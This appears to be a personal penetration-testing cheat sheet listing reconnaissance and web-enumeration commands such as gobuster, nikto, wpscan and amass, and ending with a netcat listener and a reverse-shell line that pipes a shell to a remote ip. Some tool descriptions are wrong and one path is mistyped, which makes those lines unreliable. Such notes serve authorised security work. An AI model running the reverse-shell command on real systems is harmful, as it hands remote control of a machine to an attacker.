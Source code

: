 All commands and links i need to sort.  

Good high level guide on how to pentest. https://thehackernews.com/2024/10/guide-ultimate-pentest-checklist-for.html?m=1  
Recon  
Find Vuln  
Exploit  
Evlate   
Repeat  
ZAP better then burp  



## Web Enumeration ##
wappalyzer - good plugin for looking at website platforms or software. add this to my hacking soe  

crt.sh - website to search for subdomains.  

curl -u http://website - display website header and info  

whatweb www.site.com - good for looking at website platforms or software.

dirsearch -u http://website - enumerates subdirectories  
gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories  
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories  
dirbuster is a gui version of the above tools 

sublist3r -d http://website - enumerates subdirectories  (add -t 10 for multithread or faster search)

nikto -h www.site.com  - scans website for platforms or software versions. also mentions where attacks could be possible. 

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes  
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token)  

amass enum -d domain --passive - gives XXXX  

python3 -m http.server 80 -- Start at adhoc webserver, good for quickly sharing files.    
  

## Online Tools ##
https://gchq.github.io/CyberChef/  -  

nc -lvp 1337  
nc -e /bon/sh ip 1337   

